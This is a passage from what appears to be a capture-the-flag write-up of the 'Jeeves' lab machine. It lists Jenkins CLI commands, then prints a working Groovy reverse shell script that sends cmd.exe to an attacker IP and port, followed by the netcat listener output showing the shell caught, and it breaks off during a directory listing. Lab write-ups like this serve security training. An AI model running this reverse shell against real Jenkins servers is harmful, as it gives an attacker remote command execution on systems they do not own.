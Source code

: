 </tr>
<tr>
<td><a href="http://10.10.10.63:50000/askjeeves/cli/command/update-node">update-node</a></td>
<td>Updates the node definition XML from stdin. The opposite of the get-node command.</td>
</tr>
<tr>
<td><a href="http://10.10.10.63:50000/askjeeves/cli/command/update-view">update-view</a></td>
<td>Updates the view definition XML from stdin. The opposite of the get-view command.</td>
</tr>
<tr>
<td><a href="http://10.10.10.63:50000/askjeeves/cli/command/version">version</a></td>
<td>Outputs the current version.</td>
</tr>
<tr>
<td><a href="http://10.10.10.63:50000/askjeeves/cli/command/wait-node-offline">wait-node-offline</a></td>
<td>Wait for a node to become offline.</td>
</tr>
<tr>
<td><a href="http://10.10.10.63:50000/askjeeves/cli/command/wait-node-online">wait-node-online</a></td>
<td>Wait for a node to become online.</td>
</tr>
<tr>
<td><a href="http://10.10.10.63:50000/askjeeves/cli/command/who-am-i">who-am-i</a></td>
<td>Reports your credential and permissions.</td>
</tr>
</tbody>
</table>
I need to upload a reverse shell and run it.

<img class="alignnone size-full wp-image-201" src="http://offsecnewbie.com/wp-content/uploads/2018/05/script.png" alt="" width="1487" height="546" />I found this page and a Groovy reverse shell script on https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76 I modified the ip and port and started a netcat listener.
<pre>String host="10.10.14.234";
int port=55555;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()&gt;0)so.write(pi.read());while(pe.available()&gt;0)so.write(pe.read());while(si.available()&gt;0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();</pre>
Bingo!
<pre>[root:~/Desktop/jeeves]# nc -nlvp 55555 (master✱) 
listening on [any] 55555 ...
connect to [10.10.14.234] from (UNKNOWN) [10.10.10.63] 49680
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins&gt;
</pre>
Time to capture the user flag
<pre>C:\Users\kohsuke\Desktop&gt;dir 
dir 
 Volume in drive C has no label. 
 Volume Serial Number is BE50-B1C9 
 